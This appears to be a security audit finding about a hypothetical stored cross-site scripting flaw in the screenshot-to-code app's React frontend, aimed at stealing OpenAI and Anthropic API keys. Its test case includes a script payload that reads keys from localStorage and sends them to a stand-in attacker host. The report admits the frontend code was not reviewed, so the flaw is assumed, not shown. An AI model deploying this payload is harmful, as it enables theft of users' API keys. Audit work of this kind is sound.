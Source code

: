 - Vulnerability Name: Stored Cross-Site Scripting (XSS) leading to API Key Theft
- Description:
    - An attacker could exploit a Stored Cross-Site Scripting (XSS) vulnerability in the React frontend of the application.
    - The attacker injects malicious JavaScript code into a data field that is later displayed to other users within the application's frontend.
    - When another user views the page containing the attacker's malicious code, their browser executes the injected script.
    - This malicious script can access sensitive data within the user's browser context, such as localStorage or cookies where the application might store API keys.
    - Specifically, the script is designed to steal the user's OpenAI or Anthropic API keys, which are assumed to be stored client-side after configuration in the application's settings dialog.
    - The stolen API keys are then sent to an attacker-controlled external server, allowing the attacker to use them for malicious purposes.
- Impact:
    - Successful exploitation of this vulnerability allows an attacker to steal a user's OpenAI or Anthropic API keys.
    - With stolen API keys, the attacker can:
        - Make unauthorized requests to the OpenAI or Anthropic AI models, potentially incurring financial costs for the victim through their API accounts.
        - Access the AI models for their own malicious purposes, potentially including sensitive data processing if the context allows.
        - Disrupt the victim's access to the AI model services by exhausting their API credits or through other means.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - Based on the provided backend code, there are no explicit mitigations implemented within the project to prevent Stored XSS in the frontend.
    - The backend code focuses on processing API keys and generating code using AI models but does not include input sanitization or output encoding for the frontend to prevent XSS attacks.
- Missing Mitigations:
    - **Input Sanitization and Output Encoding in React Frontend:** The React frontend must implement robust input sanitization to prevent users from injecting malicious scripts. Additionally, output encoding should be applied when rendering user-supplied data to prevent the browser from executing any injected scripts.
    - **Secure API Key Storage in Frontend:** The application should avoid storing API keys in easily accessible client-side storage mechanisms like localStorage if possible. If client-side storage is necessary, consider:
        - Encryption of API keys before storing them.
        - Using secure cookies with `HttpOnly` and `Secure` flags to limit JavaScript access and ensure transmission only over HTTPS.
    - **Content Security Policy (CSP):** Implement a Content Security Policy to restrict the sources from which the browser is allowed to load resources (scripts, stylesheets, images, etc.). A properly configured CSP can significantly reduce the impact of XSS attacks by preventing the execution of unauthorized scripts.
- Preconditions:
    - The React frontend of the application must contain a Stored XSS vulnerability, meaning it must be possible for an attacker to inject and store malicious JavaScript code.
    - Users of the application must configure their OpenAI or Anthropic API keys using the settings dialog within the frontend.
    - The application must store these API keys in a client-side storage mechanism (e.g., localStorage, cookies) that is accessible by JavaScript.
- Source Code Analysis:
    - **Backend `routes/generate_code.py`:**
        - The function `get_from_settings_dialog_or_env(params, "openAiApiKey", OPENAI_API_KEY)` in `backend/routes/generate_code.py` retrieves the OpenAI API key from the `params` dictionary, which is populated from the JSON payload received via WebSocket from the frontend.
        - Similarly, it retrieves `anthropicApiKey`.
        - This indicates that the frontend is designed to send API keys to the backend as part of the application's workflow.
        - The function `extract_params` further processes these parameters.
        - The keys are used in functions like `stream_openai_response` and `stream_claude_response` to interact with AI models.
        - **Absence of Frontend Code:**  The provided project files do not include the React frontend code. Therefore, a direct source code analysis for XSS vulnerabilities in the frontend is not possible. However, based on the backend code and the project description, it is inferred that:
            - The React frontend likely has a settings dialog where users can input their OpenAI and Anthropic API keys.
            - These API keys are then transmitted to the backend, and potentially stored or used within the frontend as well for subsequent sessions, making them a target for XSS attacks.
- Security Test Case:
    1. **Setup:**
        - Deploy an instance of the `screenshot-to-code` application, making it publicly accessible for testing.
        - Configure the backend with valid (but test or limited) OpenAI and Anthropic API keys for demonstration purposes.
    2. **Identify XSS Vulnerable Input (React Frontend - Assumed):**
        - Since frontend code is not provided, we assume there is an input field (e.g., a text field in settings, comment section if exists, or similar user-editable content area in the React frontend) that is susceptible to Stored XSS. Let's assume a hypothetical vulnerable input field in a 'Project Description' feature, if it existed in frontend.
    3. **Inject Malicious XSS Payload:**
        - As an attacker, access the assumed vulnerable input field in the React frontend (e.g., 'Project Description').
        - Inject the following malicious JavaScript code as input:
            ```html
            <script>
            window.onload = function() {
                var openAiKey = localStorage.getItem('openAiApiKey');
                var anthropicKey = localStorage.getItem('anthropicApiKey');
                if (openAiKey || anthropicKey) {
                    fetch('https://attacker-server.example.com/collect-keys?openai=' + openAiKey + '&anthropic=' + anthropicKey, {
                        mode: 'no-cors' // Use no-cors to avoid CORS issues with attacker server
                    });
                }
            };
            </script>
            ```
            *(Note: This payload is crafted under the assumption that API keys are stored in `localStorage` with keys 'openAiApiKey' and 'anthropicApiKey'. The actual storage mechanism needs to be verified in the real frontend code.)*
            - Replace `https://attacker-server.example.com/collect-keys` with a URL for an attacker-controlled server that can log incoming requests.
    4. **Trigger Stored XSS:**
        - As a legitimate user, or even the attacker using a different browser session to simulate another user, navigate to the part of the application where the 'Project Description' (or the assumed vulnerable content) is displayed. This action triggers the rendering of the attacker's stored malicious script in the browser.
    5. **Verify API Key Theft on Attacker Server:**
        - Check the logs of the attacker's server (`attacker-server.example.com`).
        - If the XSS is successful and the API keys are accessible and being sent, the server logs should contain entries for requests to `/collect-keys` with the stolen `openai` and `anthropic` API keys as query parameters.
        - The `mode: 'no-cors'` in the `fetch` API is used to bypass potential CORS restrictions when sending the stolen keys to a third-party server, although it might limit the attacker's ability to receive response data.
